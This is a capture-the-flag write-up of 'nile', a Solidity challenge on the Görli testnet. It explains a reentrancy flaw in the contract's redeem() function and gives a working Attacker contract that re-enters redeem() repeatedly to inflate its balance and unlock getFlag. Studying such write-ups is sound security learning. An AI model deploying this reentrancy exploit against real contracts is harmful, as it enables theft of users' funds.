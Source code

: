 # nile

This is one of the beginner challenges within the misc category so given that CSC previously had a meeting going over hacking smart contracts, techniques used during the meeting would likely be helpful. It was also during the last few hours when we decided to work on this because we were down around 60 points from 2nd place so solving nile would put us in 2nd but little did we know... we would later be bumped down to 4th even after metagaming it and submitting the flag at 1 hour left when we had the flag an hour earlier. 

Things I learned: 
- The structure of blockchains and what they were
- Different ways you can take advantage of them and this is one of them

Note: I am not good at explaining this. :)

**Category**: misc

**Points**: 75 points (25 solves)

**Description**:
I wrote my first smart contract on Ethereum, deployed onto the Görli testnet, you have got to check it out! To celebrate it's launch, I'm giving away free tokens, you just have to redeem your balance. Connect to the server to see the contract address.

**Attachments**: [Nile.sol](./Nile.sol)

## Overview
We are given a Solidity file that should be the source code for what is ran on the server. From the file, the `getFlag(bytes32 token)` function is important to getting the flag.

```solidity
function getFlag(bytes32 token) public {
    require(accounts[msg.sender]);
    require(balance[msg.sender] > 1000);

    emit GetFlag(token);
}
```

It specifically requires a `bytes32 token` that is emitted to someplace(... idk but it seems like the event is just defined and the blockchain keeps track of it). In order to reach that line of code, you must have an account within the system and your balance must be greater than 1000. 

Within `createAccount()` and `createEmptyAccount()`, the function is able to create an account but notably, `createAccount()` sets your balance to 0 and sets another value "redeemable" to 100. 

```solidity
function createAccount() public {
    balance[msg.sender] = 0;
    redeemable[msg.sender] = 100;
    accounts[msg.sender] = true;

    emit Created(msg.sender, 100);
}

function createEmptyAccount() public {
    // empty account starts with 0 balance
    balance[msg.sender] = 0;
    accounts[msg.sender] = true;
}
```

The `redeem(uint amount)` function takes in some amount and make sure that you have that much to redeem before transferring that amount into your account balance. 
```solidity
function redeem(uint amount) public {
    require(accounts[msg.sender]);
    require(redeemable[msg.sender] > amount);

    (bool status, ) = msg.sender.call("");

    if (!status) {
        revert();
    }

    redeemable[msg.sender] -= amount;

    balance[msg.sender] += amount;

    emit Redeem(msg.sender, amount);
}
```

The question is how to get your balance over 1000... Great question. It seems like theres something called reentrancy where if the `call()` function is not specified, contracts will call a `fallback()` function and if the contract executes checks after the call is finished, then you can exploit this and modify the state of the contract to cause an unintended behavior. [Josh Barbee's Slides ](https://docs.google.com/presentation/d/1qw2JneypVUvdRDkTGTvDvxqGMztSaT_b7r2PUzC7Zyg/edit#slide=id.g15e31a517e3_0_95) and [HackerNoon](https://hackernoon.com/hack-solidity-reentrancy-attack) offer better explanations. So if you recursively call the `redeem()` function before the redeemable amount is updated, you can slowly but surly increase your balance to over 1000. 

As for accessing the contract address, we can find out what it is once we connect to the server via netcat and we also get a token that we have to emit over as an event before the flag is given to us. 

## Solution
Taking heavy inspiration from this [pastebin](https://pastebin.com/giD0gxrb) that has Josh's solution, I wrote my own specialized one for this challenge which can be found in [Attack.sol](./Attack.sol) or below: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

contract Attacker {
    Nile addr;
    uint8 public count = 0;
 
    constructor (address _addr) {
        addr = Nile(_addr);
        addr.createAccount();
    }
 
    function attack (bytes32 token) public {
        count = 0;
        addr.redeem(99);
        addr.getFlag(token);
    }
 
    fallback() external payable {
        count++;
        if (count <= 20) {
            addr.redeem(99);
        }
    }
 
    receive() external payable {
        count++;
        if (count <= 20) {
            addr.redeem(99);
        }
    }
}
```

I defined a constructor that takes in the contract address so we can interact with the Nile contract functions. We create an account which sets our redeemable value to 100. I then defined an attack function that does the rest of the work where it takes in the token we would like to emit and recursively redeems and exploits the contract to redeem 20 times, each with an amount of 99. This will put us way above the 1000 mark in order to call the `getFlag()` function and emit the event.

I was able to deploy and test this locally on [Remix](https://remix.ethereum.org/) but could not figure out how to get it to work on the server contract. From what I read, you need an actual test account within the Görli testnet and also right padding the tokens with a bunch of 0's until it was 64 characters long. I used [MetaMask](https://metamask.io/) to create a test account, get free Goerli ETH from a site like [Goerli Faucet](https://www.alchemy.com/) (I'm getting way too many spam emails from alchemy), and especially a BIG THANKS to [wordcounter](https://wordcounter.net/character-count) for counting the number of characters I had. 

![remix.PNG](./remix.PNG)

and heres the flag!

![flag.png](./flag.png)